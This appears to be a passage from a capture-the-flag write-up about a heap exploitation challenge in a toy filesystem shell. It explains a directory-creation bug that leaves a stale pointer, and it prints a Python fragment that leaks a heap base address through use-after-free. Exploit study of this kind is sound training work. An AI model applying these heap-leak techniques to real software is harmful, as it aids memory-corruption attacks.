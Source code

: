 As you can imagine, files don't have `head` because they are not directory and obviously directories don't have `file_content` because they are not files. For instance a directory with 3 files will have the following structure.

![Filesystem](images/filesystem.png)

The available commands are `ls`, `cat`, `cd`, `rm`, `mv`, `mkdir`, `mkfile`, `touch`, `pwd`, `ln` and `id`. They work pretty much like the UNIX commands except some limitations given by the context. Functions used for these commands are almost clean: `mv` has a bug that allows to rename a file with a already existing file name in the current directory just prefixing the new name of the file with `/`(e.g. `mv name /new_name` will rename the file name to new_name in the current directory even if new_name already exists), and a 3 byte overflow in `mkfile` which i think is not usable in my opinion.
Instead, the real vulnerabilities of this challenge is in the creation of a directory. Whenever a directory is created, the pointer to the `head` is not set to 0. This allows to create a new directory with a `head` pointer that could be controlled in some way.

## Heap leak

If a directory is freed, all of the files, directories, names and contents are freed even before the parent directory gets freed. If then a new directory is created it will contain the same `head` address of the previous and freed directory. Thus, my idea was exactly this one: free a directory with a file inside, reallocate it immediately and then list the files to leak an address of a freed chunk. Moreover, one file was not enought cause one freed chunks just contains a null pointer to the next free chunk. Two file were not enought too, cause every argument of a command is allocated as a chunk(so just typing the command will consume chunks in the freed linked list).
The part of the exploit that performs the leak is the following:

```python
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'AAAA')
createFile  (conn, 'file2', 'BBBB')
createFile  (conn, 'file3', 'CCCC')
cdDir       (conn, '..')
rm          (conn, 'directory1')
makeDir     (conn, 'directory1')
leak = ls   (conn, 'directory1')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
heap_base = u64(leak) - 0x12d20
print 'Heap base: ' + hex(heap_base)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
```